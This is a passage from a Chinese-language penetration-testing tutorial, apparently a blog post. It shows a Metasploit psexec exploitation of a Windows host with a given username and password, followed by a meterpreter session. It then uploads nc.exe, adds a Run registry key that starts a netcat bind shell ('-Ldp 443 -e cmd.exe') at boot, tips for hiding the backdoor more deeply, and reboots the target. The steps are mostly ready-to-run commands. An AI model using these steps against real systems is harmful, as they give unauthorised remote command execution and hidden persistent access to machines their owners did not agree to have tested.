 ![img](https://img-blog.csdnimg.cn/img_convert/3790fccfd5c7f9528fa9737fe038e6ba.png)

### 3.设置目标IP、用户名、密码以及工作组

```
set RHOSTS 192.168.109.130     #设置目标IP
set smbuser tubage             #设置目标用户名
set smbpass 123.com            #设置目标密码
set smbdomain WORKGROUP        #设置目标工作组（在计算机属性里面能看到所属工作组）
```

![img](https://img-blog.csdnimg.cn/img_convert/c545e9a17f29ea72384d60a419896f77.png)

### 4.执行攻击

```
msf6 exploit(windows/smb/psexec) > run
meterpreter > getuid       #查看获取的当前权限
```

![img](https://img-blog.csdnimg.cn/img_convert/adc7f9ba865fba3d80a2ea3591c30fff.png)

## 十、上传后门

为了让连接持久话，我们可以上传后门程序，这样就能保持会话长久建立。

在kali 中如下路径有我们的后门程序**nc.exe** 俗称瑞士军刀。

### 1.上传瑞士军刀（nc.exe）

```
upload /usr/share/windows-binaries/nc.exe C:\\windows     
#上传到目标主机C盘Windows目录下，如果要更隐秘一点的话，可以往更深处存放。
```

![img](https://img-blog.csdnimg.cn/img_convert/7a1bea545f2b31ad3fec7586989f11c7.png)

#### 2.设置键值

```cobol
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v lltest_nc -d 'C:\windows\nc.exe -Ldp 443 -e cmd.exe'
#当目标主机开机时，程序后台运行，且监听端口为443，这个端口可自行设置。
```

![img](https://img-blog.csdnimg.cn/img_convert/a16ae7c627a0e33ddfadfe20987b7570.png)

## 十一、连接后门

### 1.重启目标主机

```
meterpreter > reboot
```
